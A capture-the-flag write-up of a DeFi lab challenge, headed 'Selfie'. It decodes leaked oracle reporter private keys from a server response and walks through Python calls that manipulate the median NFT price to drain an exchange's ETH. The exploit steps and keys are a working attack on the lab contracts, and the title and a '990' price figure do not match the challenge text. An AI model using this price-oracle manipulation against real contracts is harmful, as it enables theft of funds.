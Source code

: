 ## Selfie

### Challenge description

> While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 
30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 
55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 
47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 
4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 
68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 
68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 
55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 
32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 
4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 
33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

> A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each
>
> This price is fetched from an on-chain oracle, and is based on three trusted reporters:
> `0xA73209FB1a42495120166736362A1DfA9F95A105`
> `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
> `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
>
> Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

### Solution

The server response has 2 long strings which when decoded as a string as suggested by the headers, they return the following:

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
```

```
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

These look like base64 strings, which we can further decode into:

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
```

```
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

When trying these out as private keys, we obtain the private keys for the last two addresses in the `sources` list, which are the EOAs allowed to post prices to the oracle.

Now that we can use these addresses, we can call `postPrice()` for the "DVNFT" NFTs:

```python
oracle.postPrice("DVNFT",0, _fromLeakedAcc[0])
oracle.postPrice("DVNFT",0, _fromLeakedAcc[1])
```

After posting 0 for each of them, the median price returned by `getMedianPrice()` will return 0, as the median of $\{990, 0, 0\}$ is $0$.

We can then use the attacker account to buy one of these NFTs for 1 wei. We need to send at least 1 wei when buying, as requested by the `buyOne()` function:

```cs
uint256 amountPaidInWei = msg.value;
require(amountPaidInWei > 0, "Amount paid must be greater than zero");
```

After obtaining the NFT, we can post a new price corresponding to the entire balance of the NFT exchange:

```python
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[0])
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[1])
```

Then we must approve the token to be taken from the attacker wallet by the exchange calling `approve()` with the ID of our NFT (`0`):

```py
nft_token.approve(exchange.address, 0, _fromAttacker)
```

Then we sell the token calling `sellOne()` with the token ID:

```py
exchange.sellOne(0, _fromAttacker)
```

And then we return the price to normal, as requested by the challenge:

```py
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[0])
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[1])
```


